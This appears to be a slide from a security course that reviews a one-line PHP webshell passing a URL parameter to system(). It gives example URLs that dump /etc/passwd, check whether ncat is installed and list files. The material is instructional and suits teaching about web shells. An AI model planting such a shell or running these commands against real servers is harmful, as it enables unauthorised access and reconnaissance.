

# Webshell Warm-Up Review
Suppose the following PHP webshell lives at https://vulnerable.site/shell.php

<?php
  echo system($_GET["command"]);
?>

How would you construct a URL to:
Dump /etc/passwd?
https://vulnerable.site/shell.php?command=cat%20/etc/passwd
Determine if ncat is installed?
https://vulnerable.site/shell.php?command=ncat%20--version

List all files in the current directory?
https://vulnerable.site/shell.php?command=ls